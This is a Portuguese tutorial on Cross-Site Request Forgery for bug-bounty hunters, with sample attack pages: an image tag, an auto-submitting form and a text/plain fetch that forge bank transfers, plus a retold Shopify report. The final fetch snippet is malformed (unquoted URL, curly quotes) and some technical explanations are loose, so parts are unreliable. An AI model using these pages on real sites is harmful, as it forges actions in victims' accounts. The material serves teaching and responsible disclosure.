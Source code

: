 # Cross-Site Request Forgery

### O que é:

Cross-Site Request Forgery-CSRF, ou falsificação de requisição entre sites, é um dos ataques mais antigos, ele existe praticamente desde a fundação da WEB. Ele ocorre quando, um site malicioso força o navegador do usuário a realizar requests arbitrárias em um aplicativo WEB que ele esteja autenticado. Para que este ataque ocorra é esperado que a vítima esteja logada em sua conta e acesse o link malicioso.

![](https://i.imgur.com/kq6Tq54.png)
###### Fonte: https://www.infosec.com.br/wp-content/uploads/2017/07/cross-site-request-forgery.png
### Funcionamento técnico:

Para um melhor entendimento desta vulnerabilidade, vou dar um exemplo. 

1. Você faz login em seu banco.
2. Recebe um link no email e o acessa.
3. Percebe que sumiram $1000 da sua conta.

Como isso funcionou? Simples, ao fazer login no  banco, o usuário recebe cookies do servidor, os mesmos são anexados em todas as requests feitas ao banco, independente da origem delas. Portanto, se o atacante analisar como funciona o mecanismo de transferência de valores o mesmo pode reproduzi-lo em seu site malicioso, assim quando um cliente, autenticado, acessá-lo sofrerá o ataque.

Na prática o ataque funcionaria da seguinte forma:

Vamos supor que para fazer uma transferência o seu banco envie uma request do tipo GET, nada seguro, nesta url: http://banco.com/transfer?para=nome&montante=valor o atacante poderia usar uma página web maliciosa simples como esta para fazer o ataque:

```html
<!DOCTYPE html>
<html>
	<body>
		<img src="http://www.banco.com/transfer?para=thiago&montante=1000">
	</body>
</html>
```

Vamos entender o que esta página maliciosa está fazendo, o atributo src da tag html ```img``` funciona fazendo um GET no link da source e exibindo o conteúdo, logo no carregamento da página é feito um GET no link de transferência e o cookie é indexado, gerando assim, uma solicitação autêntica.

O mesmo tipo de ataque pode ser feito via post, neste caso a request feita pelo banco seria parecida com esta:

```http
POST / HTTP/1.1 
Host: banco.com/transfer
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: text/plain
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Cookie: SID=abcdefg

para=nome&montante=valor
```
O atacante então, poderia criar uma página parecida com esta:

```html
<!DOCTYPE html>
<html>
	<body>
		<form method="POST" 
		action="http://www.banco.com/transfer"
		id="form"
		enctype="text/plain">

		<input type="hidden" name="para" value="thiago">
		<input type="hidden" name="montante" value="1000">

		</form>
		<script>document.getElementById("form").submit()</script>
	</body>
</html>
```

Esta página funciona com um [formulário](https://github.com/T635/DI.WE.H/blob/master/Hypertext%20Markup%20Language%20-%20HTML.md), nele inserimos os atributos method, lá inserimos o tipo de request, definimos o action que é basicamente o link para onde a request deve ser enviada, definimos o id para identificá-lo em nosso código javascript, e por último definimos o enctype que é o Content-Type da request.Nas tags input, definimos o nome e o valor, isso será indexado no body da nossa request, da seguinte forma:```para=thiago&montante=1000``` o "&" é usado para separar dois inputs.Ao acessar esta página a vítima envia uma request post para o banco, e indexa seu cookie, sofrendo assim, o ataque.

#### Nem tudo são rosas...

Com a disseminação desse tipo de ataque foram criadas diversas políticas de proteção contra ele, sendo a mais conhecida o same origin policy, nele o navegador impede que requests ou recursos sejam solicitados entre um site, e por exemplo, um iframe contido nele.Para que uma request, seja de fato feita, o site e o iframe devem ter a mesma url, o mesmo protocolo-http/https, e a mesma [porta](encurtador.com.br/vCQW1). 

Essa proteção foi afrouxada com a chegada a política de CORS, ou compartilhamento de recursos de origem cruzada, nela sites com urls, protocolos e até portas diferentes podem se comunicar e trocar recursos, para isso o servidor define um cabeçalho chamado ```Access-Control-Allow-Origin```, ele define se os recursos podem ser compartilhados com a Origin fornecida,mesmo não sendo a maneira mais segura de se proteger contra CSRF, ainda assim é melhor do que aceitar qualquer request.

No entanto, não são todas as requests que "ativam" o CORS, as mais simples como as citadas acima passam sem problemas por ele, o content-type do tipo application-json, já é considerado algo malicioso e digno da atenção do CORS.

### Exemplo:

Em 2016, o pesquisador Akhil Reni encontrou uma falha no Shopify que permitia desconectar um usuário de seu Twitter, para isso Akhil analisou como funcionava o processo de logout shopify, e percebeu que o mesmo realizava uma request do tipo GET para a seguinte url: https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect segue um exemplo da request:

```http
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=bmpuTE5EdnUvYUU0eGxJRk1kMWo5WkI3Wmh1clJkempOTDcya2R3eFNIMG8zWGdpenMvTXY4eFczTWUrNGRQeXV4ZGVycEVtTDZWcFZVbEg1eEtFQjhzSEJVbkM5K05VUVJaeHVtNXBnNTJCNTdwZ2hLL0x0Kyt4eUVlSjRIOWdYTkcwd1NQWWJnbjRNaTF5UXlwa1ZIUlAwR1JmZ1Y5WmRvN2ZHWFY5REZSUmlsR0lnMHZlSjR1OTlTMW5xWDdZRnVGSnBSeEhqbWpNS3lYZmxBNjZoVE00L3pQT2NMd1NONkdwb2pkMXhDS1E2M2RXYlovZjYwaUZnV0JQKzQySlN0MTNKNG55Zlg2azFDdVJJL3RidmJMM0VJNmRVejhZbjVDTnFZNmxFN0k9LS1lY1Y2dnpBZTJCalZzS014SldFUllBPT0%3D--77463ef21e4c8ef530f466db49f78b8e1c2e1129; _ga=GA1.2.469272249.1453024796; _gat=1
Connection: keep-alive
```
O pesquisador montou uma página com o seguinte código:

```html
<html>
<body>
 <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
  </body>
</html>
```

Feito isso, conseguiu gerar uma prova de conceito(PoC), e a enviou para a empresa, ele recebeu $500 por esta falha.

O report todo pode ser lido [aqui](https://hackerone.com/reports/111216).

### Como explorar:

Para explorar esta falha o pesquisador deve estar atento aos funcionamento dos processos mais perigosos como, remoção de conta, troca de email e troca de senha, analisar como funcionam e tentar reproduzi-los em seu site malicioso. 

Alguns problemas podem ser encontrados ao tentar explorar esta vulnerabilidade, os principais são, Content-Type diferentes ou CSRF token, o segundo é um token aleatório e único gerado pelo servidor e que fica salvo na sessão do usuário, ele geralmente fica em um input hidden e é enviado e verificado em toda a requisição; infelizmente não há muitas formas de burlá-lo, o pesquisador deve apenas conferir se ele está implementado corretamente ou seja, se o servidor está realmente verificando o valor, para isto, basta troca-lo por um valor parecido. 

O problema do Content-Type ocorre quando ele é do tipo application/json, os formulários HTTP atualmente não permitem este cabeçalho aceitando apenas, text/plain, multipart/form-data e application/x-www-form-urlencoded, outro método seria usar requests javascript para mudar o Content-Type, mas isso ativa o CORS e impede a request de ser feita.Para tentar burlá-lo o pesquisador deve verificar se o servidor valida o Content-Type, ou não, caso valide o mesmo pode tentar usar um flash + 307 redirection, mas não irei comentá-lo aqui pois flash applications não funcionaram mais após dezembro de 2020; caso não haja validação, o pesquisador pode usar um Content-Type text/plain e reproduzir um json no body da request. Exemplo:


```html
<!DOCTYPE html>
<html>
	<body>
		<script>
			var url = http://banco.com/transfer
			var headers ={method: ‘POST’, credentials: ‘include’, headers: {‘Content-Type’: ‘text/plain’}, body: ‘{“para”:”thiago”,”montante”:”1000”}’}
			fetch(url,headers)
		</script>
	</body>
</html>
```
Vamos analisar o que fiz acima, primeiro criei uma página html normal com um código javascript nela, esse código usa uma função para requisições http chama [fetch](https://developer.mozilla.org/pt-BR/docs/Web/API/Fetch_API/Using_Fetch), ela aceita dois argumentos, sendo o primeiro nossa url e o segundo um array contendo o método da request, informações sobre cookies, content-type e o body dela.